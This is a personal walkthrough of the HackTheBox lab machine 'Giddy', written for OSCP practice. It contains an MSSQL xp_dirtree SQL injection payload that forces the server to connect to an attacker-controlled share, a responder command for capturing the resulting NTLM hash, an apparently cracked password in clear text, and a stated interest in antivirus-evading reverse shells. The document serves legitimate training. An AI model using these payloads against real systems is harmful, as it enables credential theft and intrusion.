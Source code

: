 # Giddy Walkthrough
Name: Giddy
Date:  
Difficulty:  Medium
Description:  
Better Description:  
Goals:  OSCP Prep - Ippsec handholding to feel mentored
Learnt:


First the video is three years old and more tools are avaliable to me than to him way back then

![faceofmadness](Screenshots/faceofmaddness.png)

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](HackTheBox/Retired-Machines/Giddy/Screenshots/ping.png)

Added 
```bash
echo '10.129.96.140 giddy' | sudo tee -a /etc/hosts
```

![view-cert](Screenshots/view-cert.png)

Check the details!

Directory busting with feroxbuster:
![mvc](Screenshots/mvc-dir.png)

Went to the page /mvc/Search.aspx and insta-search for`'`:
![sqlerror](Screenshots/sql-error.png)

One thing not noticed in the video `C:\Users\jnogueira\Downloads\owasp10\1-owasp-top10-m1-injection-exercise-files\before\1-Injection\Product.aspx.`
Ippsec demonstrated a more through methodology of testing for `--` aswell to see if it causes an error. Not using `sqlmap` till I finish OSCP.. so I tried it as this box is not on OSCP pwnlist got with id-sqli.req: 

![sqlimap](id-sqli.png)

## Exploit

Arbituary File Reading with xp_dirtree
```sql
declare @q varchar(200); set @q ='\$ip\IppsecIsAwesome\test';exec master.dbo.xp_dirtree @q;--+
```

![catching](ncat.png)

```bash
responder -I tun0
```

![stacy](hashcapture.png)

Paused video to see if I could try pass the hash. I could not.

![cracked](cracked.png)

```
xNnWo6272k7x
```


## Foothold

![](unifivideo.png)

## PrivEsc

This directory is writable, see the 43390.txt poc.
![](icacls-unifi-video.png)
![msfail](xcopythemsfshell.png)

But..
![wd](windowsdefendstrikesagain.png)
Windows Defender removes it... 

Then I went on a research spree on C Sharp,  Undetectable C sharp Reverse Shells and the best Windows-OS VM for ethical hacking for Archive. 33:00 paused...